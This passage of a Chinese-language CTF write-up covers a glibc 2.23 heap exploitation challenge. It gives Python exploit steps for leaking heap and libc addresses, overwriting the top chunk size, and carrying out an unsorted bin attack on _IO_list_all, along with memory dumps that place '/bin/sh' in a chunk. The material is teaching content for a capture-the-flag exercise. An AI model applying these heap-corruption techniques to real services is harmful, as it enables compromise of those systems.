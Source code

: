 >&nbsp;&nbsp; &nbsp;&nbsp;通过观察发现`author`和`head_address`相邻,输入`0x40`个字符即可将`NULL`填满, 使用`Information`打印`Author`,集合打印出`heap`的地址, 即所谓信息泄露.

*`top chunk modify`*
```python
add(0x18, "A"*0x18)
edit(0, "B"*0x18)
'''
由于'B'*0x18与top chunk相邻, strlen会将top chunk的长度也算进去,
总长度: 0x18 + 3, 3是0x020fe1的长度
'''
edit(0, "\x00"*0x18 + "\xe1" + "\x0f")
```
*长度错误*

![result](./01.png)

### 过程介绍
**1. leak memory**
```python
#leak heap address
Welcome("A"*0x40)
Add(1, 0x18, "A"*0x18)
Edit(3, 0, "B"*0x18)
Edit(3, 0, "\x00"*0x18 + p32(0xfe1) + "\x00")
Information(4, 0, 1)

#leak libc address
Add(1, 0x1000, "\x00"*0x1000) #add top chunk to unsorted bin
for i in range(7):
  Add(1, 0x50, "A"*0x8)
View(2, 3)
```
![result02](./02.png)

**2. 伪造**

*解析:* 前面讲到有一个长度错误, 这个长度错误就是会将`index 0`的长度修改成一个地址, 这意味着我们可以输入很多的数据, 修改`top chunk`.
1. `Unosrted Bin Attack`: 修改`_IO_list_all`为`main_arena+0x58`
```c
//glibc 2.23 3515 lines
/*
*0x22872c0:	0x0068732f6e69622f	0x0000000000000061
*0x22872d0:	0x00007f844ef79b78(main_arena+0x58)	0x00007f844ef7a510(_IO_list_all - 0x10)
*/
unsorted_chunk (av)->bk = bck;
bck->fd = unsorted_chunks (av); //bck->fd = [0x7f844ef7a510+0x10] = 0x7f844ef79b78
```
![result03](./03.png)
